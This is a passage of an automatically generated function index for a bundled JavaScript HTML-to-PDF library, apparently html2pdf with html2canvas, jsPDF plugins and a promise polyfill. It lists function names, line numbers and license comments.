"function", "line": 5904, "name": "_interopRequireDefault"}, {"kind": "function", "line": 5906, "name": "_classCallCheck"}, {"kind": "function", "line": 5909, "name": "ResourceLoader"}, {"kind": "function", "line": 5922, "name": "loadImage"}, {"kind": "function", "line": 5950, "name": "inlineImage"}, {"kind": "function", "line": 5969, "name": "xhrImage"}, {"kind": "function", "line": 6010, "name": "loadCanvas"}, {"kind": "function", "line": 6017, "name": "hasResourceInCache"}, {"kind": "function", "line": 6022, "name": "addImage"}, {"kind": "function", "line": 6025, "name": "imageLoadHandler"}, {"kind": "function", "line": 6059, "name": "isSameOrigin"}, {"kind": "function", "line": 6064, "name": "getOrigin"}, {"kind": "function", "line": 6072, "name": "ready"}, {"kind": "function", "line": 6093, "name": "ResourceStore"}, {"kind": "function", "line": 6102, "name": "get"}, {"kind": "function", "line": 6115, "name": "isInlineImage"}, {"kind": "function", "line": 6118, "name": "isInlineBase64Image"}, {"kind": "function", "line": 6121, "name": "isBlobImage"}, {"kind": "function", "line": 6125, "name": "isSVG"}, {"kind": "function", "line": 6129, "name": "_loadImage"}, {"kind": "function", "line": 6161, "name": "sliceIterator"}, {"kind": "function", "line": 6182, "name": "parseCounterReset"}, {"kind": "function", "line": 6208, "name": "popCounters"}, {"kind": "function", "line": 6215, "name": "resolvePseudoContent"}, {"kind": "function", "line": 6295, "name": "parseContent"}, {"kind": "function", "line": 6442, "name": "addOtherToken"}, {"kind": "function", "line": 6453, "name": "getQuote"}, {"kind": "function", "line": 6465, "name": "formatCounterValue"}, {"kind": "function", "line": 6494, "name": "sliceIterator"}, {"kind": "function", "line": 6496, "name": "defineProperties"}, {"kind": "function", "line": 6516, "name": "_interopRequireDefault"}, {"kind": "function", "line": 6518, "name": "_classCallCheck"}, {"kind": "function", "line": 6523, "name": "DocumentCloner"}, {"kind": "function", "line": 6544, "name": "inlineAllImages"}, {"kind": "function", "line": 6581, "name": "inlineFonts"}, {"kind": "function", "line": 6627, "name": "createElementClone"}, {"kind": "function", "line": 6709, "name": "cloneNode"}, {"kind": "function", "line": 6776, "name": "getSheetFonts"}, {"kind": "function", "line": 6813, "name": "createStyleSheetFontsFromText"}, {"kind": "function", "line": 6831, "name": "restoreOwnerScroll"}, {"kind": "function", "line": 6837, "name": "cloneCanvasContents"}, {"kind": "function", "line": 6853, "name": "inlinePseudoElement"}, {"kind": "function", "line": 6897, "name": "createPseudoHideStyles"}, {"kind": "function", "line": 6901, "name": "createStyles"}, {"kind": "function", "line": 6907, "name": "initNode"}, {"kind": "function", "line": 6917, "name": "generateIframeKey"}, {"kind": "function", "line": 6923, "name": "getIframeDocumentElement"}, {"kind": "function", "line": 6952, "name": "createIframeContainer"}, {"kind": "function", "line": 6974, "name": "iframeLoader"}, {"kind": "function", "line": 6990, "name": "cloneWindow"}, {"kind": "function", "line": 7034, "name": "serializeDoctype"}, {"kind": "function", "line": 7071, "name": "sliceIterator"}, {"kind": "function", "line": 7101, "name": "_interopRequireDefault"}, {"kind": "function", "line": 7103, "name": "renderElement"}, {"kind": "function", "line": 7225, "name": "_interopRequireDefault"}, {"kind": "function", "line": 7227, "name": "html2canvas"}, {"doc": "Determine the type of a variable/object.", "kind": "function", "line": 7309, "name": "objType"}, {"doc": "Create an HTML element with optional className, innerHTML, and style.", "kind": "function", "line": 7315, "name": "createElement"}, {"doc": "Deep-clone a node and preserve contents/properties.", "kind": "function", "line": 7332, "name": "cloneNode"}, {"doc": "Convert units from px using the conversion value 'k' from jsPDF.", "kind": "function", "line": 7363, "name": "unitConvert"}, {"doc": "Convert units to px using the conversion value 'k' from jsPDF.", "kind": "function", "line": 7376, "name": "toPx"}, {"kind": "function", "line": 7391, "name": "objectOrFunction"}, {"kind": "function", "line": 7396, "name": "isFunction"}, {"kind": "function", "line": 7417, "name": "asap"}, {"kind": "function", "line": 7433, "name": "setScheduler"}, {"kind": "function", "line": 7437, "name": "setAsap"}, {"doc": "node", "kind": "function", "line": 7450, "name": "useNextTick"}, {"doc": "vertx", "kind": "function", "line": 7459, "name": "useVertxTimer"}, {"kind": "function", "line": 7469, "name": "useMutationObserver"}, {"doc": "web worker", "kind": "function", "line": 7481, "name": "useMessageChannel"}, {"kind": "function", "line": 7489, "name": "useSetTimeout"}, {"kind": "function", "line": 7499, "name": "flush"}, {"kind": "function", "line": 7513, "name": "attemptVertx"}, {"kind": "function", "line": 7537, "name": "then"}, {"doc": "let promise = Promise.resolve(1); promise.then(function(value){ value === 1 }); ``` @method resolve @static @param {Any} value value that the returned promise will be resolved with Useful for tooling. @return {Promise} a promise that will become fulfilled with the given `value`", "kind": "function", "line": 7592, "name": "resolve"}, {"kind": "function", "line": 7607, "name": "noop"}, {"kind": "function", "line": 7615, "name": "selfFulfillment"}, {"kind": "function", "line": 7619, "name": "cannotReturnOwn"}, {"kind": "function", "line": 7623, "name": "getThen"}, {"kind": "function", "line": 7632, "name": "tryThen"}, {"kind": "function", "line": 7640, "name": "handleForeignThenable"}, {"kind": "function", "line": 7669, "name": "handleOwnThenable"}, {"kind": "function", "line": 7683, "name": "handleMaybeThenable"}, {"kind": "function", "line": 7700, "name": "resolve"}, {"kind": "function", "line": 7710, "name": "publishRejection"}, {"kind": "function", "line": 7718, "name": "fulfill"}, {"kind": "function", "line": 7731, "name": "reject"}, {"kind": "function", "line": 7741, "name": "subscribe"}, {"kind": "function", "line": 7757, "name": "publish"}, {"kind": "function", "line": 7783, "name": "tryCatch"}, {"kind": "function", "line": 7792, "name": "invokeCallback"}, {"kind": "function", "line": 7832, "name": "initializePromise"}, {"kind": "function", "line": 7836, "name": "rejectPromise"}, {"kind": "function", "line": 7845, "name": "nextId"}, {"kind": "function", "line": 7849, "name": "makePromise"}, {"kind": "function", "line": 7856, "name": "validationError"}, {"kind": "function", "line": 7861, "name": "Enumerator"}, {"kind": "function", "line": 7889, "name": "_enumerate"}, {"kind": "function", "line": 7895, "name": "_eachEntry"}, {"kind": "function", "line": 7922, "name": "_settledAt"}, {"kind": "function", "line": 7941, "name": "_willSettleAt"}, {"doc": "}, function(error) { error.message === \"2\" }); ``` @method all @static @param {Array} entries array of promises @param {String} label optional string for labeling the promise. Useful for tooling. @return {Promise} promise that is fulfilled when all `promises` have been fulfilled, or rejected if any of them become rejected. @static", "kind": "function", "line": 8001, "name": "all"}, {"doc": "An example real-world use case is implementing timeouts: ```javascript Promise.race([ajax('foo.json'), timeout(5000)]) ``` @method race @static @param {Array} promises array of promises to observe Useful for tooling. @return {Promise} a promise which settles in the same way as the first passed promise to settle.", "kind": "function", "line": 8070, "name": "race"}, {"doc": "promise.then(function(value){ Code here doesn't run because the promise is rejected! }, function(reason){ reason.message === 'WHOOPS' }); ``` @method reject @static @param {Any} reason value that the returned promise will be rejected with. Useful for tooling. @return {Promise} a promise rejected with the given `reason`.", "kind": "function", "line": 8122, "name": "reject"}, {"kind": "function", "line": 8130, "name": "needsResolver"}, {"kind": "function", "line": 8131, "name": "as"}, {"kind": "function", "line": 8134, "name": "needsNew"}, {"kind": "function", "line": 8147, "name": "with"}, {"kind": "function", "line": 8148, "name": "that"}, {"kind": "function", "line": 8193, "name": "getJSON"}, {"kind": "function", "line": 8203, "name": "handler"}, {"kind": "function", "line": 8243, "name": "Promise"}, {"kind": "function", "line": 8370, "name": "foundBooks"}, {"kind": "function", "line": 8372, "name": "failure"}, {"kind": "function", "line": 8419, "name": "findAuthor"}, {"kind": "function", "line": 8440, "name": "_catch"}, {"kind": "function", "line": 8484, "name": "_finally"}, {"doc": "return Promise; }(); Promise$1.prototype.then = then; Promise$1.all = all; Promise$1.race = race; Promise$1.resolve = resolve$1; Promise$1.reject = reject$1; Promise$1._setScheduler = setScheduler; Promise$1._setAsap = setAsap; Promise$1._asap = asap; /*global self", "kind": "function", "line": 8516, "name": "polyfill"}, {"kind": "function", "line": 8566, "name": "Worker"}, {"doc": "Converts/casts promises into Workers.", "kind": "function", "line": 8582, "name": "convert"}, {"kind": "function", "line": 8616, "name": "from"}, {"kind": "function", "line": 8617, "name": "getType"}, {"kind": "function", "line": 8645, "name": "to"}, {"kind": "function", "line": 8661, "name": "toContainer"}, {"kind": "function", "line": 8662, "name": "prerequisites"}, {"kind": "function", "line": 8665, "name": "checkPageSize"}, {"kind": "function", "line": 8695, "name": "toCanvas"}, {"kind": "function", "line": 8696, "name": "prerequisites"}, {"kind": "function", "line": 8718, "name": "toImg"}, {"kind": "function", "line": 8719, "name": "prerequisites"}, {"kind": "function", "line": 8732, "name": "toPdf"}, {"kind": "function", "line": 8733, "name": "prerequisites"}, {"kind": "function", "line": 8785, "name": "output"}, {"kind": "function", "line": 8795, "name": "outputPdf"}, {"kind": "function", "line": 8796, "name": "prerequisites"}, {"kind": "function", "line": 8812, "name": "outputImg"}, {"kind": "function", "line": 8813, "name": "prerequisites"}, {"kind": "function", "line": 8836, "name": "save"}, {"kind": "function", "line": 8837, "name": "prerequisites"}, {"kind": "function", "line": 8850, "name": "set"}, {"doc": "Set pre-defined properties.", "kind": "function", "line": 8862, "name": "set_prop"}, {"kind": "function", "line": 8870, "name": "set_jsPDF"}, {"doc": "Set any other properties in opt.", "kind": "function", "line": 8877, "name": "set_opt"}, {"kind": "function", "line": 8890, "name": "get"}, {"kind": "function", "line": 8898, "name": "setMargin"}, {"kind": "function", "line": 8920, "name": "setPageSize"}, {"kind": "function", "line": 8943, "name": "setProgress"}, {"kind": "function", "line": 8955, "name": "updateProgress"}, {"kind": "function", "line": 8962, "name": "then"}, {"kind": "function", "line": 8966, "name": "then_main"}, {"kind": "function", "line": 8969, "name": "then_pre"}, {"kind": "function", "line": 8979, "name": "thenCore"}, {"kind": "function", "line": 9001, "name": "thenExternal"}, {"kind": "function", "line": 9006, "name": "thenList"}, {"kind": "function", "line": 9024, "name": "catchExternal"}, {"kind": "function", "line": 9029, "name": "error"}, {"kind": "function", "line": 9182, "name": "toContainer"}, {"kind": "function", "line": 9213, "name": "pagebreak_loop"}, {"kind": "function", "line": 9287, "name": "toContainer"}, {"kind": "function", "line": 9317, "name": "toPdf"}, {"doc": "Generate a PDF from an HTML element or string using html2canvas and jsPDF.  @param {Element|string} source The source element or HTML string. @param {Object=} opt An object of optional settings: 'margin', 'filename', 'image' ('type' and 'quality'), and 'html2canvas' / 'jspdf', which are sent as settings to their corresponding functions.", "kind": "function", "line": 9342, "name": "html2pdf"}, {"doc": "jsPDF Canvas PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 70, "name": "r"}, {"doc": "jsPDF bmp Support PlugIn Copyright (c) 2018 Aras Abbasi  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 94, "name": "n"}, {"doc": "@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com", "kind": "function", "line": 115, "name": "r"}, {"kind": "function", "line": 146, "name": "a"}, {"kind": "function", "line": 146, "name": "s"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "n"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "i"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "T"}, {"doc": "Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik", "kind": "function", "line": 217, "name": "p"}, {"doc": "Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik", "kind": "function", "line": 217, "name": "w"}, {"doc": "Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik", "kind": "function", "line": 217, "name": "y"}, {"kind": "function", "line": 1476, "name": "paddingBox"}, {"kind": "function", "line": 1570, "name": "size"}, {"kind": "function", "line": 1571, "name": "position"}, {"kind": "function", "line": 2215, "name": "listStyleImage"}, {"kind": "function", "line": 2807, "name": "svg"}, {"kind": "function", "line": 3088, "name": "buffer"}, {"kind": "function", "line": 3730, "name": "codePoints"}, {"kind": "function", "line": 3767, "name": "codePoints"}, {"kind": "function", "line": 3873, "name": "breaker"}, {"kind": "function", "line": 3956, "name": "bounds"}, {"kind": "function", "line": 4642, "name": "listOwner"}, {"kind": "function", "line": 5165, "name": "stepSize"}, {"kind": "function", "line": 5179, "name": "angle"}, {"kind": "function", "line": 5308, "name": "d"}, {"kind": "function", "line": 5562, "name": "contentBox"}, {"kind": "function", "line": 5592, "name": "backgroundPaintingArea"}, {"kind": "function", "line": 5638, "name": "backgroundPositioningArea"}, {"kind": "function", "line": 5639, "name": "backgroundImageSize"}, {"kind": "function", "line": 5640, "name": "position"}, {"kind": "function", "line": 5641, "name": "_path"}, {"kind": "function", "line": 5651, "name": "backgroundPositioningArea"}, {"kind": "function", "line": 5652, "name": "backgroundImageSize"}, {"kind": "function", "line": 5653, "name": "position"}, {"kind": "function", "line": 5656, "name": "gradient"}, {"kind": "function", "line": 6570, "name": "clonedChild"}, {"kind": "function", "line": 6645, "name": "_parseBounds"}, {"kind": "function", "line": 6725, "name": "counters"}, {"kind": "function", "line": 6726, "name": "contentBefore"}, {"kind": "function", "line": 6740, "name": "contentAfter"}, {"kind": "function", "line": 6781, "name": "src"}, {"kind": "function", "line": 7154, "name": "stack"}, {"kind": "function", "line": 7256, "name": "result"}, {"kind": "function", "line": 9058, "name": "format_as_string"}, {"kind": "function", "line": 27, "name": "e"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "c"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "I"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "C"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "T"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "F"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "P"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "E"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "q"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "O"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "B"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "R"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "j"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "D"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "M"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "U"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "d"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "n"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "h"}, {"doc": "jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 62, "name": "c"}, {"doc": "jsPDF Canvas PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 70, "name": "r"}, {"doc": "jsPDF Outline PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 78, "name": "C"}, {"doc": "jsPDF bmp Support PlugIn Copyright (c) 2018 Aras Abbasi  Licensed under the MIT License. http://opensource.org/licenses/mit-license", "kind": "function", "line": 94, "name": "v"}, {"doc": "@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com", "kind": "function", "line": 115, "name": "c"}, {"doc": "@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com", "kind": "function", "line": 115, "name": "s"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "r"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "u"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "d"}, {"doc": "Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik", "kind": "function", "line": 217, "name": "St"}, {"kind": "function", "line": 244, "name": "_slicedToArray"}, {"kind": "function", "line": 246, "name": "_createClass"}, {"kind": "function", "line": 251, "name": "hex3"}, {"kind": "function", "line": 260, "name": "hex6"}, {"kind": "function", "line": 269, "name": "rgb"}, {"kind": "function", "line": 278, "name": "rgba"}, {"kind": "function", "line": 286, "name": "fromArray"}, {"kind": "function", "line": 290, "name": "namedColor"}, {"kind": "function", "line": 295, "name": "Color"}, {"kind": "function", "line": 519, "name": "parseLine"}, {"kind": "function", "line": 531, "name": "parseTextDecorationLine"}, {"kind": "function", "line": 539, "name": "parseTextDecorationStyle"}, {"kind": "function", "line": 581, "name": "_createClass"}, {"kind": "function", "line": 589, "name": "addColorStops"}, {"kind": "function", "line": 599, "name": "CanvasRenderer"}, {"kind": "function", "line": 839, "name": "_createClass"}, {"kind": "function", "line": 843, "name": "Logger"}, {"kind": "function", "line": 934, "name": "_createClass"}, {"kind": "function", "line": 949, "name": "Length"}, {"kind": "function", "line": 981, "name": "getRootFontSize"}, {"kind": "function", "line": 1014, "name": "Size"}, {"kind": "function", "line": 1035, "name": "Vector"}, {"kind": "function", "line": 1054, "name": "_createClass"}, {"kind": "function", "line": 1066, "name": "lerp"}, {"kind": "function", "line": 1070, "name": "BezierCurve"}, {"kind": "function", "line": 1113, "name": "_createClass"}, {"kind": "function", "line": 1201, "name": "createPathFromCurves"}, {"kind": "function", "line": 1290, "name": "getCurvePoints"}, {"kind": "function", "line": 1408, "name": "BackgroundSize"}, {"kind": "function", "line": 1520, "name": "parseBackgroundClip"}, {"kind": "function", "line": 1530, "name": "parseBackgroundOrigin"}, {"kind": "function", "line": 1540, "name": "parseBackgroundRepeat"}, {"kind": "function", "line": 1557, "name": "parseBackgroundImages"}, {"kind": "function", "line": 1582, "name": "parseBackgroundSize"}, {"kind": "function", "line": 1586, "name": "parseBackgoundPosition"}, {"kind": "function", "line": 1611, "name": "appendResult"}, {"kind": "function", "line": 1746, "name": "parseBorderStyle"}, {"kind": "function", "line": 1779, "name": "_slicedToArray"}, {"kind": "function", "line": 1843, "name": "parseDisplayValue"}, {"kind": "function", "line": 1908, "name": "setDisplayBit"}, {"kind": "function", "line": 1958, "name": "parseFontWeight"}, {"kind": "function", "line": 2223, "name": "parseListStylePosition"}, {"kind": "function", "line": 2376, "name": "appendValue"}, {"kind": "function", "line": 2388, "name": "appendShadow"}, {"kind": "function", "line": 2490, "name": "toFloat"}, {"doc": "$FlowFixMe", "kind": "function", "line": 2517, "name": "parseTransformOrigin"}, {"doc": "$FlowFixMe", "kind": "function", "line": 2527, "name": "parseTransformMatrix"}, {"kind": "function", "line": 2624, "name": "_createClass"}, {"kind": "function", "line": 2628, "name": "ForeignObjectRenderer"}, {"kind": "function", "line": 2710, "name": "testRangeBounds"}, {"doc": "iOS 10.3 taints canvas with base64 images unless crossOrigin = 'anonymous'", "kind": "function", "line": 2735, "name": "testBase64"}, {"kind": "function", "line": 2744, "name": "onload"}, {"kind": "function", "line": 2768, "name": "testCORS"}, {"kind": "function", "line": 2772, "name": "testResponseType"}, {"kind": "function", "line": 2776, "name": "testSVG"}, {"kind": "function", "line": 2791, "name": "isGreenPixel"}, {"kind": "function", "line": 2795, "name": "testForeignObject"}, {"kind": "function", "line": 3014, "name": "_createClass"}, {"kind": "function", "line": 3195, "name": "_createClass"}, {"kind": "function", "line": 3197, "name": "_slicedToArray"}, {"kind": "function", "line": 3395, "name": "isAdjacentWithSpaceIgnored"}, {"kind": "function", "line": 3444, "name": "previousNonSpaceClassType"}, {"kind": "function", "line": 3457, "name": "_lineBreakAtIndex"}, {"kind": "function", "line": 3705, "name": "cssFormattedClasses"}, {"kind": "function", "line": 3746, "name": "Break"}, {"kind": "function", "line": 3950, "name": "getWrapperBounds"}, {"kind": "function", "line": 3965, "name": "getRangeBounds"}, {"kind": "function", "line": 3982, "name": "_createClass"}, {"kind": "function", "line": 3990, "name": "TextContainer"}, {"kind": "function", "line": 4015, "name": "transform"}, {"kind": "function", "line": 4048, "name": "Circle"}, {"kind": "function", "line": 